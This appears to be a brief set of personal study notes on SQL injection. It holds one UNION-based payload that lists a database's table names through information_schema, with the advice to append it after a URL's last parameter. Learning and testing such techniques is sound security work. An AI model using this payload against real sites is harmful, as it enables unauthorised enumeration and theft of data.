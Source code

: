 # Learning SQL Injection

Just taking some notes about different SQL Injections.

---------------------------------------------

### Add the command after the last parameter

#### - This will display the tables
```
UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```
